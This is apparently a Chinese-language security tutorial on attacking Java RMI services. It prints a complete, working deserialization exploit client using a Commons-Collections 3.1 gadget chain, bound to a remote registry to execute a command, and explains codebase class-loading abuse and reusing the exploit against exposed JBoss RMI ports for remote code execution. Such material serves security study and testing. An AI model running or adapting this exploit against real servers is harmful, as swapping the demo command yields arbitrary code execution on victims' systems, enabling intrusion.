





### 0x01 前言

上一章介绍了rmi的基本概念，以及浅显的提了一下rmi的利用点。这一章将结合具体的代码与实践来讲解攻击rmi的方式。

### 0x02 利用反序列化攻击RMI

这也是我们在上文中提到的攻击方式，这个攻击有两个前提：

1. rmi服务端提供了接收Object类型参数的远程方法
2. rmi服务器的lib或着说classpath中有存在pop利用链的jar包，例如3.1版本的commons-collections.jar

我们直接来看一个案例(RMI server还是用的上一章的那个demo)：

Server端：

```java
package server;

import model.Hello;
import model.impl.Helloimpl;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws RemoteException{
        // 创建对象
        Hello hello = new Helloimpl();
        // 创建注册表
        Registry registry = LocateRegistry.createRegistry(1099);
        // 绑定对象到注册表，并给他取名为hello
        registry.rebind("hello", hello);
    }
}
```

现在，我们需要构造一个恶意的客户端，向服务端发送一个恶意的序列化对象，如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class RMIExploit {

    public static void main(String[] args) throws Exception {

        // 远程RMI Server的地址
        String ip = "192.168.201.24";
        int port = 1099;
        // 要执行的命令
        String command = "gnome-calculator";

        final String ANN_INV_HANDLER_CLASS = "sun.reflect.annotation.AnnotationInvocationHandler";

        // real chain for after setup
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] {String.class, Class[].class },
                        new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke",
                        new Class[] {Object.class, Object[].class },
                        new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class },
                        new Object[] { command }),
                new ConstantTransformer(1) };

        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field valfield = badAttributeValueExpException.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(badAttributeValueExpException, entry);
        // 上面都是我们接触过得代码，正常的payload生成，下面的就是把它包装一下，让它可以在rmi中使用

        // 为了能够封装到AnnotationInvocationHandler中，需要把badAttributeValueExpException先放到一个map结构中
        String name = "axin";
        Map<String, Object> map = new HashMap<String, Object>();
        map.put(name, badAttributeValueExpException);
        // 获得AnnotationInvocationHandler的构造函数
        Constructor cl = Class.forName(ANN_INV_HANDLER_CLASS).getDeclaredConstructors()[0];
        cl.setAccessible(true);
        // 实例化一个Remote.class的代理
        InvocationHandler hl = (InvocationHandler)cl.newInstance(Override.class, map);
        Object object = Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, hl);
        Remote remote = Remote.class.cast(object);
        Registry registry=LocateRegistry.getRegistry(ip,port);
        registry.bind(name, remote);
    }
}
```

注释中已经解释了代码的用途，但是最后一点代码还是要着重说一下，因为bind(name,remote)中的remote对象必须要实现Remote接口，但是我们的badAttributeValueExpException是没有实现这个接口的，所以，这里利用了很巧妙的一个技巧，那就是利用动态代理，代理了Remote.class，且把这个类的handler设置为封装了我们的badAttributeValueExpException对象的AnnotationInvocationHandler，这里不一定是用AnnotationInvocationHandler封装，换成其他的handler也是可以的，这样就可以把我们的恶意序列化对象发到服务端了。

ps: 虽然我们的对象被封装到了handler中，但是java在反序列化时是会层层进行的，所以，不用担心我们的对象不被反序列化。

有些文章提到不能直接bind恶意对象到registry,只能本地进行bind、rebind、unbind等方法，但是经过我的测试，是可以的。实验结果如下：

服务端（我的物理机）：



攻击者（我的虚拟机）：




其实这种攻击方式还是攻击的registry(应该是吧)，如果registry与远程对象提供服务器不在同一主机上，那么就要注意我们攻击的是registry而不是远程对象提供服务器，但是一般Registry与远程对象提供服务器都是同一主机。

如果是不在同一主机，又想攻击远程对象提供服务器，那么就不能用上述调用bind方法的方式，而是需要满足一开始提到的那两个条件，并根据真实情况另外编写exp。


### 0x03 直接调用危险的远程方法

如同标题说的那样，如果Server端注册了一个对象到Registry,且这个对象中有某个方法可以进行某些危险操作，例如：写文件，执行命令等，那么我们就可以直接写一个Client端，然后调用这个危险的方法就可以完成攻击了。对于这个攻击方式，有一个挺好的工具：https://github.com/NickstaDB/BaRMIe

这个工具的原理应该就是利用list()方法或者暴力破解的方式，列出远程所有注册的远程对象，从而探测危险的对象～（猜的^^)

###  0x04 rmi动态类加载

RMI核心特点之一就是动态类加载，如果当前JVM中没有某个类的定义，它可以从远程URL去下载这个类的class，动态加载的对象class文件可以使用Web服务的方式进行托管。这可以动态的扩展远程应用的功能，RMI注册表上可以动态的加载绑定多个RMI应用。对于客户端而言，服务端返回值也可能是一些子类的对象实例，而客户端并没有这些子类的class文件，如果需要客户端正确调用这些子类中被重写的方法，则同样需要有运行时动态加载额外类的能力。客户端使用了与RMI注册表相同的机制。RMI服务端将URL传递给客户端，客户端通过HTTP请求下载这些类。 


所以，如果我们可以控制客户端从哪里加载类，那么就能够让客户端加载恶意类，完成攻击的目的。

关于rmi的动态类加载，又分为两种比较典型的攻击方式，一种是大名鼎鼎的JNDI注入，还有一种就是codebase的安全问题。关于JNDI注入我们后面单独开一章谈，这里只是说说codebase的安全问题，利用代码参考：https://paper.seebug.org/1091/#java-rmi_3   我这里就简单阐述一下。

前面大概提到了动态类加载可以从一个URL中加载本地不存在的类文件，那么这个URL在哪里指定呢?其实就是通过java.rmi.server.codebase这个属性指定，属性具体在代码中怎么设置呢?

```java
System.setProperty("java.rmi.server.codebase", "http://127.0.0.1:8000/");
```
按照上面这么设置过后，当本地找不到com.axin.hello这个类时就会到地址：`http://127.0.0.1:8000/com/axin/hello.class`下载类文件到本地，从而保证能够正确调用

codebase参考：https://blog.csdn.net/bigtree_3721/article/details/50614289

说了这么久，还是没有提到怎么攻击呀？前面说道如果能够控制客户端从哪里加载类，就可以完成攻击对吧，那怎么控制呢？其实codebase的值是相互指定的，也就是客户端告诉服务端去哪里加载类，服务端告诉客户端去哪里加载类，这才是codebase的正确用法，也就是说codebase的值是对方可控的，而不是采用本地指定的这个codebase,当服务端利用上面的代码设置了codebase过后，在发送对象到客户端的时候会带上服务端设置的codebase的值，客户端收到服务端返回的对象后发现本地没有找到类文件，会去检查服务端传过来的codebase属性，然后去对象地址加载类文件，如果对方没有提供codebase,才会错误的使用自己本地设置的codebase去加载类。

看似这个利用很简单，而且听起来很普遍的样子，其实这个利用是有前提条件的(以下内容引用自https://paper.seebug.org/1091/#java-rmi_3) ：
1. 由于Java SecurityManager的限制，默认是不允许远程加载的，如果需要进行远程加载类，需要安装RMISecurityManager并且配置java.security.policy。
2. 属性 java.rmi.server.useCodebaseOnly 的值必需为false。但是从JDK 6u45、7u21开始，java.rmi.server.useCodebaseOnly 的默认值就是true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前虚拟机的java.rmi.server.codebase 指定路径加载类文件。使用这个属性来防止虚拟机从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。

值得一提的是，由于codebase的指定是相互的，所以，只要满足条件客户端与服务端是可以相互攻击的~

### 0x05 案例1 攻击jboss的rmi registry

jboss如果对外开放了rmi端口的话，我们可以很轻松的实现RCE，其实也是利用反序列化攻击，和我们的第一个demo一样。

1. 扫端口



2. exp开打

exp直接用上面那个poc改改就行，改下ip端口啥的



值得一提的是jboss的rmi registry是运行在1090\1091\1098这几个端口上的，1099不是rmi registry,而且我们要攻击1090端口才能成功，因为1090端口的这个registry才注册着我们想要的对象?攻击1091与1098都会爆下面这个错误




